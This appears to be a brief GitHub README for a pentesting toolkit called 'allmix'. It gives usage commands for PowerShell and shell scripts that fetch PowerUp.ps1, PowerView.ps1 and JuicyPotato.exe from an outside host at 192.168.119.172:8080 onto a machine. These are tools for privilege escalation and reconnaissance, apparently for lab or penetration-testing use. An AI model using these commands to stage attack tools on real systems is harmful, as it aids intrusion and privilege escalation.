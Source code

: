 # allmix

## LISTS

# MultiFileDownload.ps1
 if on cmd type powershell
 .\MultiFileDownload.ps1 -HostUrl "http://192.168.119.172:8080" -FileNames "PowerUp.ps1", "PowerView.ps1", "JuicyPotato.exe" -Destination "C:\Users\Public\"

# powerup.ps1 
Updated and working well without any issue. 

# MultiFileDownload.sh
Linux multi file downloader give permission Chmod +x before use. 
$ ./MultiFileDownload.sh
Enter host URL: http://192.168.119.172:8080
Enter file names (separated by space): PowerUp.ps1 PowerView.ps1 JuicyPotato.exe
Enter destination directory: ./Downloads
